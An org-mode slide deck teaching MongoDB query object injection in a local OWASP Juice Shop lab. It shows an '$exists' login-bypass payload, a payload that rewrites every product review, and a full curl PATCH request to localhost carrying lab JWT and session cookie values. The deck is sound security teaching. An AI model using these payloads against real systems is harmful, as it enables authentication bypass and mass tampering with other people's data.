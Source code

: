#+TITLE: NoSQL Injection
#+DATE: MongoDb Query Object Injection
#+AUTHOR: Zach Roof
#+OPTIONS: num:nil toc:nil
#+OPTIONS: tags:nil
#+OPTIONS: reveal_center:nil reveal_control:nil width:100% height:100% prop:nil
#+OPTIONS: reveal_history:t reveal_keyboard:t reveal_overview:t
#+OPTIONS: reveal_slide_number:nil
#+OPTIONS: reveal_title_slide:"<h2>%t</h2><h3>%d<h3>"
#+OPTIONS: reveal_progress:t reveal_rolling_links:nil reveal_single_file:nil
#+OPTIONS: auto-id:t
#+REVEAL_HLEVEL: 1
#+REVEAL_MARGIN: 0
#+REVEAL_MIN_SCALE: 1
#+REVEAL_MAX_SCALE: 1
#+REVEAL_ROOT: .
#+REVEAL_TRANS: default
#+REVEAL_SPEED: default
#+REVEAL_THEME: sts
#+REVEAL_EXTRA_CSS: css/local.css
#+REVEAL_INIT_SCRIPT: previewLinks: false
#+REVEAL_PLUGINS: (classList highlight)
#+REVEAL_HIGHLIGHT_CSS:%r/lib/highlight.js/src/styles/monokai-sublime.css
#+REVEAL_HLEVEL: 2
* NoSQL Injection: MongoDb Query Object Injection
  :PROPERTIES:
  :CUSTOM_ID: h-6C0AE174-9CC6-48AF-9C2D-61D94246BF20
  :END:
  # :PROPERTIES:
  # :header-args: :tangle (src_path :tutorial 'injection-fundamentals-4) :mkdirp yes :noweb yes :exports code :src_dir (src_parse :tutorial 'injection-fundamentals-4) :filename (src_path :tutorial 'injection-fundamentals-4)
  # :CUSTOM_ID: h-CF80E32A-A437-49F9-B392-7CDA7A51D79A
  # :END:
** Table Of Contents
   :PROPERTIES:
   :CUSTOM_ID: h-E2FCBD6C-BE30-4131-A6AE-844E0BE39093
   :END:
- [[#nosql-injection-mongodb-query-object-injection][NoSQL Injection: MongoDb Query Object Injection]]
  - [[#talk-scope][Talk Scope]]
  - [[#recap-what-is-nosql-injection-nosqli][Recap: What is NoSQL Injection (NoSQLi)?]]
  - [[#query-objects][Query Objects]]
  - [[#exercise-evaluating-injection-risks][Exercise: Evaluating Injection Risks]]
  - [[#example-query-object-injection][Example: Query Object Injection]]
  - [[#query-operator-attack-vector][Query Operator Attack Vector]]
  - [[#query-operators][Query Operators]]
  - [[#exercise-overview][Exercise Overview]]
  - [[#exercise-setup][Exercise Setup]]
  - [[#exercise-assignment][Exercise Assignment]]
  - [[#solution-find-patch-data][Solution: Find Patch Data]]
  - [[#solution-construct-payload][Solution: Construct Payload]]
  - [[#solution-find-api-endpoint-url][Solution: Find API endpoint URL]]
  - [[#solution-construct-curl-command][Solution: Construct cURL command]]
  - [[#takeaways][Takeaways]]

** Talk Scope
   :PROPERTIES:
   :CUSTOM_ID: h-853FB39F-D352-437D-BFA7-1B19A6A40BC7-scope
   :END:
1. Learn about Mongo's Query Objects, and how they can circumvent server-side password validation
2. Interactive Exercise: Reconnaissance of client-side javascript to find API endpoints
   and associated payload
2. Interactive Exercise: Use Query Object injection to update all product reviews within
   Owasp's Juice Shop

** Recap: What is NoSQL Injection (NoSQLi)?
   :PROPERTIES:
   :CUSTOM_ID: h-F25B40DC-874D-4063-808C-B412389842B4
   :END:
+ Introduced when developers create dynamic database queries that include user
  supplied input (untrusted input)
+ What unexpected input types could we receive?
    + Binary
  + Query Object
  + Others

** Query Objects
   :PROPERTIES:
   :CUSTOM_ID: h-90237551-9DA2-4CA4-9C14-8AB0390F73F3
   :END:
#+BEGIN_SRC mongo :noweb yes :export code
  // Mongo shell syntax (dev syntax is very similar)
  db.accounts.find({username: username_value, password: password_value});

  // Find method signature
  db.collection.find(query[[[, fields], options], callback]);
#+END_SRC
+ ~{username: username_value, password: password_value}~
  + Query Object that can be leveraged to validate username/password
        + Query Objects contain logic
      + If more than one field is specified, it's an ~AND~ query

** Exercise: Evaluating Injection Risks
   :PROPERTIES:
   :CUSTOM_ID: h-8E6F41B5-66D7-4072-901D-4FE6C620623E
   :END:
#+BEGIN_SRC mongo :noweb yes :export code
  db.accounts.find({username: username_value, password: password_value});
#+END_SRC
+ [[https://sts.tools/nosqi-from-beginner-to-bson-injection][BSON injection course]] recap
  + Validation issues within an underlying library could allow an attacker to
    inject ~username_value~ / ~password_value~ with unexpected characters
+ Assume that the underlying libraries /are/ validating correctly, how could one
  attack ~username_value~ / ~password_value~?
  + Hint: Usually the issues are right in front of you
+ Answer: Nested Query Objects

** Example: Query Object Injection
   :PROPERTIES:
   :CUSTOM_ID: h-01AFFDD9-3C18-45C5-8977-E18F26BD15C5
   :END:
#+BEGIN_SRC mongo :noweb yes :export code
  db.accounts.find({username: username_value, password: password_value});
#+END_SRC
#+BEGIN_SRC json :noweb yes :export code
{
    "username": "admin",
    "password": {$exists: true}
}
#+END_SRC
+ Set ~password_value~ equal to another query object
+ What is ~$exists~?
  + Query Operator

** Query Operator Attack Vector
   :PROPERTIES:
   :CUSTOM_ID: h-76434B60-0819-4CFB-A34C-149919CC2418
   :END:
#+BEGIN_SRC json :noweb yes :export code
{
    "username": "admin",
    "password": {$exists: true}
}
#+END_SRC
+ To subvert the validation condition, an attacker can try to inject query
  objects that evaluate to ~true~

** Query Operators
   :PROPERTIES:
   :CUSTOM_ID: h-CDFCCE27-13BB-4180-A079-DD0D4C42CB53
   :END:
+ [[https://docs.mongodb.com/manual/reference/operator/query/][Query Operators]]
    + Comparison
    + Ex: ~{$gt: 0}~
  + Logical
    + Ex: ~{$not: ""}~
  + Element
    + Ex: ~{$exists: true}~
  + Evaluation
    + ~$where~
    + Matches documents that satisfy a JavaScript expression
  + Comment
    + ~db.collection.find( { <query>, $comment: <comment> } )~
      + XSS Log injection

** Exercise Overview
   :PROPERTIES:
   :CUSTOM_ID: h-2A626C58-FA27-48F1-B6B0-027087F5480D
   :END:
+ Scenario
    + You are a Juice Shop owner and you're trying to degrade the reputation of your competition
  + You want all preexisting reviews to be altered and display your message
  + Threat modeling
    + The financially motivated attacker
    + Not always "You've been PAWNED! You suck! Muhaha"
+ Attack Steps
    1. Evaluate client-side code to find API endpoint
  2. Leverage query object injection to update all reviews

** Exercise Setup
   :PROPERTIES:
   :CUSTOM_ID: h-0D6B2303-7A5B-48E4-B12C-A8085D596BCE
   :END:
1. ~docker run -p 3000:3000 securingthestack/juice-shop:nosqli-object-injection~
2. View [[http://localhost:3000][http://localhost:3000]] in Google Chrome
3. Create new user and log in
4. Chrome Dev Tools
   1. ~dist/juice-shop.min.js~
   2. Pretty Print
      1. Search for ~patch~
5. Click on a product from the main page and submit a product review
   1. ~Copy as cURL~ to give yourself a template

** Exercise Assignment
   :PROPERTIES:
   :CUSTOM_ID: h-C20D82A3-6167-4194-821B-10FF44F1CF40
   :END:
- Leverage the code (relevant code linked to ~patch~), curl template, and query object injection to update every
  review on the site
- Hint
    - Focus on the ~id~ field for the query object injection
  - ~{ "id": X, "message": X }~

** Solution: Find Patch Data
   :PROPERTIES:
   :CUSTOM_ID: h-8EB128D8-24EF-47F6-8A5B-3D56E638BA67
   :END:
#+BEGIN_SRC javascript :noweb yes :export code
angular.module("juiceShop").controller("ProductReviewEditController", ["$scope", "$uibModalInstance", "ProductReviewService", "review", function(n, e, t, o) {
    "use strict";
    n.id = o._id,
    n.message = o.message,
    n.editReview = function() {
        t.patch({
            id: n.id,
            message: n.message
        }).then(function() {
            e.close(n.message)
        }).catch(function(e) {
            console.log(e),
            n.err = e
        })
    }
}
#+END_SRC

** Solution: Construct Payload
   :PROPERTIES:
   :CUSTOM_ID: h-C69B9E33-A82E-42E2-9B5E-B078BB33E6A5
   :END:
#+BEGIN_SRC json :noweb yes :export code
{ "id": { "$exists": true }, "message": "I cant believe how SOUR this juice was!!" }
#+END_SRC

** Solution: Find API endpoint URL
   :PROPERTIES:
   :CUSTOM_ID: h-16C7C774-7CA1-4B83-A5A1-3EF714A009AD
   :END:
#+BEGIN_SRC javascript :noweb yes :export code
  angular.module("juiceShop").factory("ProductReviewService", ["$http", "$q", function(o, a) {
      "use strict";
      var r = "/rest/product";
      return {
          // ...snip...
          patch: function(e) {
              var n = a.defer();
              return o.patch(r + "/reviews", e).then(function(e) {
                  n.resolve(e.data.data)
              }).catch(function(e) {
                  n.reject(e.data)
              }),
              n.promise
          }
      }
  }
#+END_SRC

** Solution: Construct cURL command
   :PROPERTIES:
   :CUSTOM_ID: h-438341AD-9CF7-4B3E-9A04-E928D34725AC
   :END:
#+BEGIN_SRC text :noweb yes :export code
  curl 'http://localhost:3000/rest/product/reviews' -X PATCH -H 'Pragma: no-cache'
  -H 'Origin: http://localhost:3000' -H 'Accept-Encoding: gzip, deflate, br' -H
  'Accept-Language: en-US,en;q=0.9' -H 'Authorization: Bearer
  eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OSwiZW1haWwiOiJmb29AZm9vLmNvbSIsInBhc3N3b3JkIjoiZmRiYTk4OTcwOTYxZWRiMjlmODgyNDFiOWQ5OWQ4OTAiLCJjcmVhdGVkQXQiOiIyMDE4LTA3LTIyIDIyOjA4OjE4LjA0OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTA3LTIyIDIyOjA4OjE4LjA0OSArMDA6MDAifSwiaWF0IjoxNTMyMjk3MzE4LCJleHAiOjE1MzIzMTUzMTh9.u19Fl-GcuZvNSaFDgzYFIKFrnpGnhTZTMqV0s-ZVSB7cJDWPaLgfdG3hYA0Wb7MgbZQFzHV_BcLzoHKRkJe-T_p_8E6LhUyr9A6VWbTt9f9IHEyeXH6EqmuM3WkeTkB8cgDqVpOiLLz8K9U6-B6z5yThnECwKbrinRTWgoT2g3E'
  -H 'Content-Type: application/json;charset=UTF-8' -H 'Accept: application/json,
  text/plain, */*' -H 'Cache-Control: no-cache' -H 'User-Agent: Mozilla/5.0
  (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko)
  Chrome/67.0.3396.99 Safari/537.36' -H 'Cookie:
  connect.sid=s%3AkVWjF7LgDglaiBddGx4d-i0ZZIkXRC7T.atB7Ffy5NCMywjOCiL51vNAcWb5rt5aCw%2BuS5x7eWMw;
  cookieconsent_status=dismiss; language=en;
  i18next=en;
  continueCode=DLz1ZK8EnQbOajlDeV71P9Jp5wyLA6m0oMBN2XrKx4RmvzZ6k3YqWgaE74yj;
  io=rwn8sIR1IsKAeZhUAAAD;
  token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OSwiZW1haWwiOiJmb29AZm9vLmNvbSIsInBhc3N3b3JkIjoiZmRiYTk4OTcwOTYxZWRiMjlmODgyNDFiOWQ5OWQ4OTAiLCJjcmVhdGVkQXQiOiIyMDE4LTA3LTIyIDIyOjA4OjE4LjA0OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTA3LTIyIDIyOjA4OjE4LjA0OSArMDA6MDAifSwiaWF0IjoxNTMyMjk3MzE4LCJleHAiOjE1MzIzMTUzMTh9.u19Fl-GcuZvNSaFDgzYFIKFrnpGnhTZTMqV0s-ZVSB7cJDWPaLgfdG3hYA0Wb7MgbZQFzHV_BcLzoHKRkJe-T_p_8E6LhUyr9A6VWbTt9f9IHEyeXH6EqmuM3WkeTkB8cgDqVpOiLLz8K9U6-B6z5yThnECwKbrinRTWgoT2g3E'
  -H 'Connection: keep-alive' -H 'Referer: http://localhost:3000/' -H 'DNT: 1'
  --data-binary '{ "id": { "$exists": true }, "message": "I cant believe how SOUR this juice
      was!!" }' --compressed
#+END_SRC

** Takeaways
   :PROPERTIES:
   :CUSTOM_ID: h-6B101571-BAF6-4F92-98F0-F4D5203EBE63
   :END:
+ Attackers profile Javascript to deduce admin functionality (or functionality
  that isn't immediately available within the application)
+ Input Validation
  + Regular Expressions aren't enough, we must also validate type
